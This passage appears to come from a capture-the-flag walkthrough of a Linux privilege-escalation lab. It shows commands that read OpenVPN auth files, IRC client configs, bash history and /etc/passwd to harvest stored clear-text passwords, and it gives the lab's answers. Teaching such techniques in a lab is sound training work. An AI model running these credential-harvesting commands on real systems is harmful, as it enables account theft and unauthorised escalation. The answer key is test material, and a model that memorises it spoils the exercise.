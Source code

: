 ~~~
TCM@debian:~$ cat /etc/openvpn/auth.txt
user
password321
~~~

5. In command prompt type: `cat /home/user/.irssi/config | grep -i passw`
6. From the output, make note of the clear-text credentials.

~~~
TCM@debian:~$ cat /home/user/.irssi/config | grep -i passw
    autosendcmd = "/msg nickserv identify password321 ;wait 2000";
~~~

## 4.1 - What password did you find?

Answer: `password321`

## 4.2 - What user's credentials were exposed in the OpenVPN auth file?

Answer: `user`


# [Task 5] Privilege Escalation - Stored Passwords (History)

**Exploitation**

Linux VM

1. In command prompt type: `cat ~/.bash_history | grep -i passw`
2. From the output, make note of the clear-text credentials.

~~~
TCM@debian:~$ cat ~/.bash_history | grep -i passw
mysql -h somehost.local -uroot -ppassword123
cat /etc/passwd | cut -d: -f1
awk -F: '($3 == "0") {print}' /etc/passwd
~~~

## 5.1 - What was TCM trying to log into?

Answer: `mysql`

## 5.2 - Who was TCM trying to log in as?

Answer: `root`

## 5.3 - Naughty naughty.  What was the password discovered?

Answer: `password123`
